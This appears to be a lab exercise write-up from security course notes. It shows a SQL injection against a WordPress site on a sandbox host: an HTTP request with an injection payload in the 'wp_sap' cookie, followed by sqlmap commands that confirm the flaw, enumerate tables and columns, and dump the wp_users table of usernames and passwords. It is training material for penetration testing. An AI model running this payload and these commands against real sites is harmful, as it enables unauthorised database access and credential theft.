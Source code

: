 ### 24.2.2.2 Exercise
#### 1. Use sqlmap to exploit the SQL injection and extract the username and password.

1. Received a value GET Request header with the cookie parameter and marked for SQLMap where to inject the code:

   ```http
   GET / HTTP/1.1
   Host: sandbox.local
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: wp_sap=["1650149780')) OR 1=2 *#"];
   Upgrade-Insecure-Requests: 1
   Cache-Control: max-age=0
   ```

2. Verified that a SQL Injection vulnerability does exist:

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql
   ```

   ![image-20200803175004903](.24.2.2.2.assets/image-20200803175004903.png)

3. Enumerate the tables

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql --tables
   ```

   ![image-20200803174929969](.24.2.2.2.assets/image-20200803174929969.png)

4. Enumerate the columns of table "wp_users" to check it out.

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql -T'wp_users' --columns
   ```

   ![image-20200803175251679](.24.2.2.2.assets/image-20200803175251679.png)

5. Dumped content of "wp_users"

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql -T'wp_users' --dump
   ```

   ![image-20200803175522722](.24.2.2.2.assets/image-20200803175522722.png)

